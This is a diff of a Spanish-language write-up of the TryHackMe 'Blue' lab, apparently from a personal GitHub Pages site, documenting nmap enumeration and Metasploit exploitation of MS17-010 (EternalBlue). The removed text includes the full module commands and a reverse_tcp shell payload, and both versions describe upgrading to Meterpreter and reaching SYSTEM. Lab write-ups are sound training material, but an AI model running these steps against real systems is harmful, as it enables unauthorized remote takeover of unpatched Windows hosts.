

Before and after one commit to AngelMartinez-23/AngelMartinez-23.github.io, a Markdown page: writeups/blue/Write-Up Máquina Blue.md, the part around one of its changes. Shown at 81% size. Rendered like a GitHub page; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

Commit message:
Cambios en el blue.md

```diff
--- a/writeups/blue/Write-Up Máquina Blue.md
+++ b/writeups/blue/Write-Up Máquina Blue.md
@@ -1,33 +1,40 @@
 # Blue
 
-En este documento expondremos el recorrido realizado por la máquina Blue de TryHackMe, así como las soluciones propuestas.
+Este informe documenta el proceso de explotación de la máquina **Blue** en Tryhackme, abordando la metodología utilizada para la enumeración, explotación, escalada de privilegios y recuperación de información relevante.
+<br>
 
-Escaneamos la máquina objetivo haciendo uso de nmap. Más concretamente, emplearemos el comando **nmap -sV -sC --script vuln IP.** Gracias a este, averiguaremos los puertos abiertos, los servicios en ejecución en dichos puertos, y sus versiones correspondientes. Además, obtendremos el nombre del host, que es **JON-PC**, y la vulnerabilidad que podremos emplear contra la máquina para acceder a la misma, siendo la CVE-2017-0143, que permite la ejecución remota de código en servidores con Microsoft SMBv1 (**ms17-010**). Esto lo vamos a dividir primero buscaremos los puertos abiertos y l nombre del host y luego realizaremos el comando de las vulnerabilidades
+## Escaneo y enumeración
+### Primer Escaneo: Nmap -A -T4
+El primer paso para la enumeración de la máquina fue realizar un escaneo completo de puertos y servicios expuestos utilizando **Nmap**. El comando ejecutado fue:
 
 ![Imagen 1](_resources/1.png)
 
+Este primer escaneo reveló los puertos abiertos y los servicios activos en la máquina objetivo, así como el sistema operativo y sus versiones. Entre los resultados más relevantes se encontró que la máquina estaba ejecutando el servicio SMB (Puerto 445).
+
+### Escaneo específico para vulnerabilidades
+
+Se realizó un escaneo más específico para identificar vulnerabilidades en los servicios descubiertos. Utilizando **Nmap** con los siguientes parámetros:
+
+*nmap -sV -sC --script vuln IP*
+
+El parámetro *-sV* identificó las versiones de los servicios en ejecución, mientras que *-sC* ejecutó los scripts predeterminados de **Nmap**, y *--script vuln* permitió identificar posibles vulnerabilidades conocidas. En este caso, el escaneo reveló que la máquina tenía habilitado el protocolo SMBv1 y que estaba vulnerable a la vulnerabilidad **MS17-010** (CVE-2017-0143), también conocida como *"EternalBlue"*, que permite la ejecución remota de código.
+
 ![Imagen 2](_resources/2.png)
 
-## Gain Access
+<br>
 
-Iniciamos Metasploit con el comando sudo msfconsole, y una vez dentro, buscamos la forma de explotar la vulnerabilidad ms17-010. Para ello, empleamos el término search, seguido de la susodicha vulnerabilidad.
+## Explotación de la vulnerabilidad
+
+Para explotar la vulnerabilidad *MS17-010*, se utilizó **Metasploit**. Tras iniciar la herramienta con msfconsole, se ejecutó la búsqueda del módulo correspondiente con el siguiente comando:
+
 
 ![Imagen 3](_resources/3.png)
 
-Comandos que vamos a utilizar:
-
-use 0 o la ruta en concreto (use exploit/windows/smb/ms17_010_eternalblue)
-show options
-set rhosts (IP THM)
-set lhost (IP de nuestra VPN)
-set payload windows/x64/shell/reverse_tcp
-run
-
-Vemos que la primera opción (*eternalblue*), es perfecta para tratar de acceder a la máquina, por lo que la seleccionamos, y mostramos las opciones del exploit.
+En la siguiente imagen refleja que seleccionamos la vulnerabilidad y realizamos un show options para comprobar que elementos son requeridos:
 
 ![Imagen 4](_resources/4.png)
 
-Cambiamos la opción RHOSTS a la IP de la máquina a vulnerar. Después de esto, podremos ejecutar el exploit, haciendp uso del comando run o exploit.
+Agregamos los campos requeridos y los que vamos a utilizar, tanto las ips correspondientes como el playload para abrirnos nuestra máquina reverse.
 
 ![Imagen 5](_resources/5.png)
 
@@ -36,41 +43,36 @@ Al finalizar nos tienen que mostrar la siguiente salida:
 
 ![Imagen 6](_resources/6.png)
 
-Una vez que vemos que ha funcionado, oprimimos CTRL+Z para dejar la sesión iniciada en segundo plano (background). y pulsamos y para guardar la session
+La explotación fue exitosa, proporcionando acceso a una sesión remota en la máquina objetivo. Para mantener la sesión activa en segundo plano, se usó *CTRL+Z*, seleccionamos la opción de guardar la sesión.
 
 ![Imagen 7](_resources/7.png)
 
-## Escalate
+## Escalada de privilegios
 
-Convertimos nuestra shell en meterpreter, y para ello buscamos en Metasploit \*shell_to_meterpreter. Una vez que nos muestre los resultado, elegimos la primera (use 0).
+Para mejorar el control sobre la máquina, se convirtió la sesión a Meterpreter utilizando el módulo adecuado. Para esto, primero se realizó la búsqueda del módulo:
 
 ![Imagen 8](_resources/8.png)
 
-Una vez realizado el comando lo seleccionaremos con el comando use (numero identificativo) y luego utilizaremos el comando show options para ver que modulos son requeridos.
+Una vez realizado el comando lo seleccionaremos con el comando use (numero identificativo) y luego utilizaremos el comando show options para ver que modulos son requeridos:
 
 ![Imagen 9](_resources/9.png)
 
-También debemos cambiar la opcion LHOST a nuestra IP VPN
+Debemos agregar los modulos requeridos, en este caso es requerido la **SESSION**, pero además también deberemos de añadir la *IP de nuestra VPN* para su conexión.
 
 ![Imagen 10](_resources/10.png)
-
-Podemos mostrar todas las sesiones activas con el comando sessions -l
-
 ![Imagen 11](_resources/11.png)
-
 ![Imagen 12](_resources/12.png)
 
-&nbsp;
 
-Una vez convertida la sesión hay que seleccionarla para poder utilizar la línea de comandos:
+Una vez completado todos los pasos necesarios ya podremos lanzar nuestro comando run y nos sale la siguiente entrada:
 
 ![Imagen 13](_resources/13.png)
 
-Seleccionamos la sesión en la que se encuentra el meterpreter
+Una vez terminado, mostraremos la sessiones que se encuentran en funcionamiento y seleccionaremos la session de nuestra reverse (*meterpreter*)
 
 ![Imagen 14](_resources/14.png)
 
-Si ejecutamos el comando shell seguido de whoami, la consola nos muestra NT authority\\system, lo que indica que hemos accedido y escalado privilegios de forma exitosa en el sistema.
+Si ejecutamos el comando **shell** seguido de *whoami*, la consola nos muestra *NT authority\\system*, lo que indica que hemos accedido y escalado privilegios de forma exitosa en el sistema.
 
 ![Imagen 15](_resources/15.png)
 
```
Also changed, not shown: other parts of writeups/blue/Write-Up Máquina Blue.md (+10 -10 lines).
